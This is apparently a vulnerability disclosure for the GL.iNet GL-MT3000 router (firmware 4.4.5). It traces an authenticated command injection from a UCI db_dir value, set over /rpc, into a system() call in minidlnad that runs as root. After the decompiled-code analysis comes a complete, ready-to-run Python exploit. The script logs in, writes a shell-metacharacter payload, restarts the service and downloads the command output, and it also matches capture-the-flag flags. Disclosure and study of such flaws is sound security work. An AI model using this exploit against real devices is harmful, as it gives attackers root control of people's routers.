







Submission Date: 2026.5.11
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An authenticated command injection vulnerability exists in the minidlna service of the affected product. The `/rpc` endpoint allows an authenticated admin to write arbitrary values to UCI `minidlna.config.db_dir` via `uci.set`, because the rpcd ACL grants global `uci.set` permission to the `luci-base` scope without per-package restrictions. The init script then echoes the UCI value verbatim into `/var/etc/minidlna.conf` with no shell quoting. When `minidlnad` (running as root with `user=root`) reads this configuration, it passes the `db_dir` value through `realpath()`, which fails for non-existent paths containing shell metacharacters and falls back to the raw payload. The raw string is then passed unsanitized into `snprintf(buf, "rm -rf %s/files.db %s/art_cache", db_dir, db_dir)` followed by `system(buf)`, resulting in root command execution.

The reported vulnerable flow is:

```text
Authenticated attacker
  -> POST /rpc login → session with luci-base scope

  -> POST /rpc uci.set(config="minidlna", section="config", values={
         enabled: 1, user: "root",
         db_dir: "/tmp/x; <cmd> > /tmp/out 2>&1; #"
     })
     // rpcd ACL luci-base.json: write.ubus.uci = ["set"] — global, no per-package isolation
     // uci.set stores value as-is, no content validation

  -> POST /rpc uci.apply()
     UCI committed → /etc/config/minidlna

  -> POST /rpc ubus.call(luci, setInitAction, {name:"minidlna", action:"restart"})
     triggers /etc/init.d/minidlna restart

  -> /etc/init.d/minidlna:
       minidlna_cfg_addstr() → config_get + echo "$key=$val"
       // line 31: echo "db_dir=/tmp/x; <cmd> > /tmp/out 2>&1; #"
       // NO shell quoting — raw payload written to /var/etc/minidlna.conf

  -> minidlnad (root, because user=root):
       sub_411F74 reads /var/etc/minidlna.conf
         → strchr(line, '=') splits key=value
         → dispatch table lookup: "db_dir" → type 13
         → strncpy copies value into parsed config array
         // NO sanitization — shell metacharacters preserved

       sub_406D14 switch case 0x0D:
         → realpath(payload, resolved) → NULL (path doesn't exist)
         → fallback: path = raw_payload  // 💥 raw payload used directly!
         → sub_40682C(&path_, path, 0x400)  // stored in global

       sub_4069E8:
         → snprintf(buf, "rm -rf %s/files.db %s/art_cache",
                    path_, path_)
         → system(buf)
         → /bin/sh -c "rm -rf /tmp/x; <cmd> > /tmp/out 2>&1; #/files.db ..."
              ----------   ------   ------------------  ------------------
                no-op        RCE      shell redirect      commented out
```

The `/rpc` ACL configuration in `/usr/share/rpcd/acl.d/luci-base.json` grants `write.ubus.uci.set` globally to the `luci-base` scope. There is no per-package ACL entry for `minidlna`, meaning any authenticated session with `luci-base` scope can write to any UCI package:



The init script at `/etc/init.d/minidlna` writes UCI values directly into the daemon configuration file with no shell quoting (lines 30-31, 57):



```sh
# line 30-31: reads UCI, echoes directly
minidlna_cfg_addstr() {
    local cfg="$1" key="$2" def="$3" val
    config_get val "$cfg" "$key" "$def"
    [ -n "$val" ] && echo "$key=$val"     # <-- raw echo, no quoting
}

# line 57: db_dir written verbatim
minidlna_cfg_addstr "$cfg" db_dir
```

The `minidlnad` binary reads the configuration file through `sub_411F74`, which uses a 26-entry dispatch table at `0x0042fc20` to map config keys to numeric types. The `db_dir` key maps to type 13:



```
Dispatch table @ 0x0042fc20 (16 bytes per entry):
  Type 1:  "network_interface"
  Type 9:  "friendly_name"
  Type 10: "media_dir"
  Type 12: "inotify"
  Type 13: "db_dir"          <-- target
  Type 14: "log_dir"
  ... (26 entries total)
```

The parsed value is stored without any content validation:

```c
// sub_411F74 — config file parser
strncpy(entry + 4, eq + 1, 199);   // raw value copied as-is
```

The main initialization function handles type 13 (db_dir) at case 0x0D. It calls `realpath()` which fails for paths containing shell metacharacters, then falls back to the raw payload:





```c
// main init, case 0xD (IDA decompilation)
case 0xD:
    path = realpath((const char *)(v24 + 4), resolved);
    if ( !path )
    {
        i_1 += ptr_0;
        path = (char *)(i_1 + 4);   // 💥 realpath failed → falls back to RAW payload
    }
    sub_416078(path, 0x3FFu);       // strip trailing '/'
    if ( access(path, 0) )
        sub_41F378(1, 0, "minidlna.c", 715,
            "Database path not accessible! [%s]\n", path);
        // WARNING only — does NOT reject the path
    _00000000 = &path_;
    n16 = 1024;
    path_1 = path;
LABEL_75:
    sub_40682C(_00000000, path_1, n16);  // strncpy to global path_
    goto LABEL_64;
```

For the attack payload `/tmp/x; id > /tmp/pwned; #`:
1. `realpath()` returns NULL (the path with `;` does not exist)
2. Falls back via `path = (char *)(i_1 + 4)` → raw payload
3. `sub_416078` strips trailing whitespace only (no effect on shell metacharacters)
4. `access()` fails → logs a warning but continues
5. `sub_40682C` copies the raw payload into the global `path_` variable

The sink constructs a shell command using the unsanitized `db_dir` value:



```c
// Database cleanup function (IDA decompilation)
sqlite3_close(v17[0]);
snprintf(s, 0x2000u, "rm -rf %s/files.db %s/art_cache", &path_, &path_);
if ( system(s) )
    sub_41F378(1, 0, "minidlna.c", 407,
        "Failed to clean old file cache!  Exiting...\n");
```

The call chain from startup to sink:

```
main
  → sub_405CC0
      → sub_406D14()           // parse config, db_dir → path_
      → sub_4069E8(db, ...)    // database cleanup triggers sink
```

The root cause spans four layers of missing defenses:

| Layer | Issue | Impact |
|-------|-------|--------|
| rpcd ACL | `uci.set` global grant, no per-package isolation | Admin session can write any UCI package |
| uci.set | No value format validation | `;` `#` `\|` stored as-is |
| init script | `echo "$key=$val"` without shell quoting | Payload enters config file verbatim |
| minidlnad | `realpath()` fallback + `system()` without sanitization | Shell metacharacters executed by /bin/sh |

The following dangerous characters pass through all layers unchanged and are interpreted by `system()`:

| Character | Shell behavior | Impact |
|-----------|---------------|--------|
| `;` | Command separator | Execute arbitrary commands |
| `\|` | Pipe | Chain commands |
| `` ` `` | Command substitution | Nested command execution |
| `$()` | Command substitution | Nested command execution |
| `#` | Comment | Hide trailing arguments |
| `&&` / `\|\|` | Conditional execution | Conditional command execution |
| `>` / `>>` | Redirect | Write output to arbitrary files |

```c++
#!/usr/bin/env python3
from __future__ import annotations

import argparse
import hashlib
import json
import os
import re
import shlex
import ssl
import subprocess
import time
import urllib.error
import urllib.parse
import urllib.request


FLAG_PATTERNS = [
    re.compile(rb"flag\{.*?\}", re.I | re.S),
    re.compile(rb"CTF\{.*?\}", re.I | re.S),
    re.compile(rb"DASCTF\{.*?\}", re.I | re.S),
]


class GLInetError(RuntimeError):
    pass


class GLInetClient:
    def __init__(self, base_url: str, username: str, password: str, timeout: int = 30, verify_ssl: bool = False):
        self.base_url = base_url.rstrip("/")
        self.username = username
        self.password = password
        self.timeout = timeout
        self.sid: str | None = None
        self._ssl_context = ssl.create_default_context() if verify_ssl else ssl._create_unverified_context()

    def _open(self, req: urllib.request.Request) -> bytes:
        try:
            with urllib.request.urlopen(req, timeout=self.timeout, context=self._ssl_context) as resp:
                return resp.read()
        except urllib.error.HTTPError as exc:
            raise GLInetError(f"HTTP {exc.code}: {exc.read().decode(errors='replace')}") from exc
        except urllib.error.URLError as exc:
            raise GLInetError(f"Connection failed: {exc}") from exc
        except TimeoutError as exc:
            raise GLInetError(f"Connection timed out after {self.timeout}s") from exc

    def _post_json(self, path: str, obj: dict) -> dict:
        req = urllib.request.Request(
            f"{self.base_url}{path}",
            data=json.dumps(obj).encode(),
            headers={"Content-Type": "application/json"},
            method="POST",
        )
        raw = self._open(req).decode(errors="replace")
        try:
            return json.loads(raw)
        except json.JSONDecodeError as exc:
            raise GLInetError(f"Unexpected non-JSON response from {path}: {raw[:200]}") from exc

    def login(self) -> str:
        challenge = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 1, "method": "challenge", "params": {"username": self.username}},
        )
        if "error" in challenge:
            raise GLInetError(f"challenge failed: {challenge['error']}")

        salt = challenge["result"]["salt"]
        nonce = challenge["result"]["nonce"]
        crypt_pw = subprocess.check_output(["openssl", "passwd", "-1", "-salt", salt, self.password], text=True).strip()
        digest = hashlib.md5(f"{self.username}:{crypt_pw}:{nonce}".encode()).hexdigest()

        login = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 2, "method": "login", "params": {"username": self.username, "hash": digest}},
        )
        if "error" in login:
            raise GLInetError(f"login failed: {login['error']}")

        self.sid = login["result"]["sid"]
        return self.sid

    def ensure_login(self) -> str:
        return self.sid or self.login()

    def rpc_call(self, obj: str, method: str, args: dict | None = None):
        resp = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 3, "method": "call", "params": [self.ensure_login(), obj, method, args or {}]},
        )
        if "error" in resp:
            raise GLInetError(f"rpc call failed: {resp['error']}")
        return resp.get("result")

    def uci_load(self, config: str):
        return self.rpc_call("uci", "load", {"config": config})

    def uci_set(self, config: str, section: str, values: dict[str, str]):
        return self.rpc_call("uci", "set", {"config": config, "section": section, "values": values})

    def uci_apply(self):
        return self.rpc_call("uci", "apply", {})

    def ubus_call(self, obj: str, method: str, params: dict | None = None):
        return self.rpc_call("ubus", "call", {"object": obj, "method": method, "params": params or {}})

    def set_init_action(self, name: str, action: str):
        return self.ubus_call("luci", "setInitAction", {"name": name, "action": action})

    def download(self, path: str, filename: str | None = None) -> bytes:
        body = urllib.parse.urlencode(
            {
                "sid": self.ensure_login(),
                "path": path,
                "filename": filename or os.path.basename(path) or "download.bin",
            }
        ).encode()
        req = urllib.request.Request(
            f"{self.base_url}/download",
            data=body,
            headers={"Content-Type": "application/x-www-form-urlencoded"},
            method="POST",
        )
        return self._open(req)


def base_url_host(base_url: str) -> str:
    parsed = urllib.parse.urlparse(base_url)
    if not parsed.hostname:
        raise GLInetError(f"invalid base URL: {base_url}")
    return parsed.hostname


def ping_host(host: str, timeout: int) -> bool:
    cmd = ["ping", "-c", "1", "-W", str(timeout), host]
    return subprocess.run(cmd, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=False).returncode == 0


def build_db_dir_payload(prefix: str, command: str, output_file: str) -> str:
    if "\n" in command or "\r" in command:
        raise GLInetError("newline characters are not supported in --command")
    # minidlnad later builds: system("rm -rf %s/files.db %s/art_cache").
    # The init script quotes db_dir while creating the literal path, so shell
    # metacharacters survive until minidlnad uses db_path unquoted.
    return f"{prefix}; ({command}) > {shlex.quote(output_file)} 2>&1; #"


def find_minidlna_section(uci_data) -> dict[str, str]:
    if isinstance(uci_data, dict):
        section = uci_data.get("config")
        if isinstance(section, dict):
            return section
    return {}


def snapshot_values(section: dict[str, str]) -> dict[str, str]:
    return {
        "enabled": str(section.get("enabled", "0")),
        "user": str(section.get("user", "minidlna")),
        "db_dir": str(section.get("db_dir", "/var/run/minidlna")),
    }


def find_flags(data: bytes) -> list[str]:
    flags: list[str] = []
    for pattern in FLAG_PATTERNS:
        flags.extend(match.decode(errors="replace") for match in pattern.findall(data))
    return flags


def main() -> int:
    parser = argparse.ArgumentParser(
        description="Authenticated GL.iNet /rpc UCI poisoning -> minidlnad db_dir command-injection PoC."
    )
    parser.add_argument("--base-url", default="http://192.168.8.1")
    parser.add_argument("--username", default="root")
    parser.add_argument("--password", default="12345678Q!")
    parser.add_argument("--db-prefix", default="/tmp/p23mini", help="Safe prefix used before the injected shell metacharacter")
    parser.add_argument("--output-file", default="/tmp/p23_minidlna.out")
    parser.add_argument(
        "--command",
        default="cat /f* /root/f* /tmp/f* 2>/dev/null || id",
        help="Shell command executed by minidlnad; stdout/stderr is written to --output-file",
    )
    parser.add_argument("--post-delay", type=float, default=3.0, help="Delay before downloading the proof file")
    parser.add_argument("--timeout", type=int, default=30)
    parser.add_argument("--ping-timeout", type=int, default=1)
    parser.add_argument("--skip-ping", action="store_true", help="Do not enforce the pre-exploitation ICMP gate")
    parser.add_argument("--verify-ssl", action="store_true")
    parser.add_argument("--no-restore", action="store_true", help="Leave the exploit UCI values in place")
    args = parser.parse_args()

    host = base_url_host(args.base_url)
    if not args.skip_ping and not ping_host(host, args.ping_timeout):
        raise GLInetError(f"pre-exploitation ping failed for {host}; target not reached")

    db_dir_payload = build_db_dir_payload(args.db_prefix, args.command, args.output_file)
    client = GLInetClient(args.base_url, args.username, args.password, timeout=args.timeout, verify_ssl=args.verify_ssl)
    sid = client.login()

    original = snapshot_values(find_minidlna_section(client.uci_load("minidlna")))
    exploit_values = {
        "enabled": "1",
        "user": "root",
        "db_dir": db_dir_payload,
    }

    print("[+] target      :", args.base_url)
    print("[+] endpoint    : /rpc -> uci.set/apply -> ubus.call(luci.setInitAction)")
    print("[+] username    :", args.username)
    print("[+] sid         :", sid)
    print("[+] command     :", args.command)
    print("[+] output file :", args.output_file)
    print("[+] original    :", original)
    print("[+] db_dir      :", db_dir_payload)

    data = b""
    restore_error: Exception | None = None
    try:
        client.uci_set("minidlna", "config", exploit_values)
        client.uci_apply()
        restart_result = client.set_init_action("minidlna", "restart")
        print("[+] restart result:")
        print(json.dumps(restart_result, ensure_ascii=False, indent=2))

        if args.post_delay > 0:
            time.sleep(args.post_delay)

        data = client.download(args.output_file)
    finally:
        if not args.no_restore:
            try:
                client.uci_set("minidlna", "config", original)
                client.uci_apply()
                client.set_init_action("minidlna", "restart" if original.get("enabled") == "1" else "stop")
                print("[+] restored minidlna UCI values")
            except Exception as exc:  # noqa: BLE001 - keep exploitation result visible.
                restore_error = exc

    print("[+] downloaded bytes:", len(data))
    print("[+] command output:")
    print(data.decode(errors="replace"))

    flags = find_flags(data)
    if flags:
        print("[+] flags:")
        for flag in flags:
            print(flag)
    else:
        print("[-] no flag-like tokens found")

    if restore_error:
        raise GLInetError(f"exploit completed, but restore failed: {restore_error}") from restore_error

    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

The exploitation is shown below.


